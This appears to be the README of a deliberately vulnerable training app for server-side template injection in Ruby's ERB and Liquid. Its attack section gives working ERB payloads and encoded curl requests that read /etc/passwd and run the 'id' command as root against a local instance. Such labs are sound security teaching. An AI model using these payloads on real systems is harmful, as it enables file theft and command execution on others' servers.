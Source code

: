 # Liquid ERB SSTI (Server-Side Template Injection)

Vulnerability application for Liquid and ERB.

## Run

```
docker-compose build

docker-compose up -d

docker-compose down
```

## Attack

### ERB

```
<%= 7 * 7 %>

# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%37%20%2a%20%37%20%25%3e'
hi 49
```

```
<%= File.open('/etc/passwd').read %>

# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%46%69%6c%65%2e%6f%70%65%6e%28%27%2f%65%74%63%2f%70%61%73%73%77%64%27%29%2e%72%65%61%64%20%25%3e'
hi root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...snip...)
```

```
<%= IO.popen('id').readlines() %>

# curl 'http://127.0.0.1:4567/erb?name=%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%69%64%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%25%3e'
hi ["uid=0(root) gid=0(root) groups=0(root)\n"]
```

### Liquid

```
{{ 7 | times: 7 }}

# curl 'http://127.0.0.1:4567/liquid?name=%7b%7b%20%37%20%7c%20%74%69%6d%65%73%3a%20%37%20%7d%7d'
hi 49
```
